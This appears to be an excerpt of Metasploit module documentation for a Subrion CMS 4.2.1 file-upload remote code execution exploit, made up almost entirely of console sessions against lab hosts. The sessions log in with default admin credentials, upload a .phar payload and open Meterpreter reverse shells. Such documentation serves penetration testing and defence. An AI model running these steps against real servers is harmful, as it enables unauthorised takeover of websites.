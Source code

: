 ```
[+] The target appears to be vulnerable. However, this version check does not guarantee that the target is vulnerable, since a fix for the vulnerability can easily be applied by a web admin.
[*] Connecting to Subrion Admin Panel login page to obtain CSRF token...
[+] Successfully obtained CSRF token: xjUlGn2ZDOBA2ZhobPAmuC17wZXpVxyjVsLBqF54
[*] Logging in to Subrion Admin Panel at: http://192.168.29.1/panel/ using credentials admin:123456
[+] Successfully logged in as Administrator.
[*] Preparing payload...
[*] Sending POST data...
[+] Successfully uploaded payload at: http://192.168.29.1/uploads/wvkjygteyz.phar
[*] Executing 'wvkjygteyz.phar'... This file will be deleted after execution.
[*] Sending stage (39927 bytes) to 192.168.245.1
[*] Meterpreter session 1 opened (192.168.245.128:4444 -> 192.168.245.1:51466) at 2023-07-30 03:24:33 -0400
[+] Successfully executed payload: http://192.168.29.1/uploads/wvkjygteyz.phar

meterpreter > getuid
Server username: SYSTEM
meterpreter > sysinfo
Computer    : DESKTOP-50BU5J8
OS          : Windows NT DESKTOP-50BU5J8 10.0 build 19045 (Windows 10) AMD64
Meterpreter : php/windows
meterpreter > 
```

### Subrion CMS v4.2.1 with LAMP Stack on Debian 10

* Using PHP paylod - default TARGET 0

```
msf6 > use exploit/linux/http/subrion_cms_file_upload_rce
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(linux/http/subrion_cms_file_upload_rce) > set RHOSTS 192.168.245.133
RHOSTS => 192.168.245.133
msf6 exploit(linux/http/subrion_cms_file_upload_rce) > set LHOST eth0
LHOST => 192.168.245.128
msf6 exploit(linux/http/subrion_cms_file_upload_rce) > exploit

[*] Started reverse TCP handler on 192.168.245.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking target web server for a response at: http://192.168.245.133:80/panel/
[+] Target is running Subrion CMS.
[*] Checking Subrion CMS version...
[+] Target is running Subrion CMS Version 4.2.1.
[!] This version check does not guarantee that the target is vulnerable, since a fix for the vulnerability can easily be applied by a web admin.
[+] The target appears to be vulnerable.
[*] Connecting to Subrion Admin Panel login page to obtain CSRF token...
[+] Successfully obtained CSRF token: mKMUcUoMJjRxTxOog8DXxeFxLGQVU7rHSX6slM85
[*] Logging in to Subrion Admin Panel at: http://192.168.245.133/panel/ using credentials admin:admin
[+] Successfully logged in as Administrator.
[*] Preparing payload...
[*] Sending POST data...
[+] Successfully uploaded payload at: http://192.168.245.133/uploads/htwgmjllep.phar
[*] Executing 'htwgmjllep.phar'... This file will be deleted after execution.
[*] Sending stage (39927 bytes) to 192.168.245.133
[*] Meterpreter session 1 opened (192.168.245.128:4444 -> 192.168.245.133:53698) at 2023-07-21 14:21:17 -0400
[+] Successfully executed payload: http://192.168.245.133/uploads/htwgmjllep.phar

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : debian
```